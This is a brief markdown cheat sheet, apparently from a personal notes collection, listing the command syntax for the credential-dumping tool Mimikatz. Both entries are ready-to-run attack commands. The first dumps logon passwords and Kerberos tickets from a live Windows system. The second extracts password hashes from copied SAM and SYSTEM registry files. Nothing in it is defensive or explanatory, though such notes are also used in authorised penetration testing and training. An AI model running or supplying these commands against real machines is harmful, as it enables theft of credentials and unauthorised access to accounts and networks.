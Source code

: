 # Mimikatz syntax

1. mimkatz 1 liner:
   - `Mimikatz.exe "sekurlsa::logonpasswords" "sekurlsa::tickets" exit`
  
2. mimikatz SAM and SYSTEM files:
   - `Mimikatz.exe "log mimikatz.log" "lsadump::sam /system:<system file> /sam:<sam file>" exit`
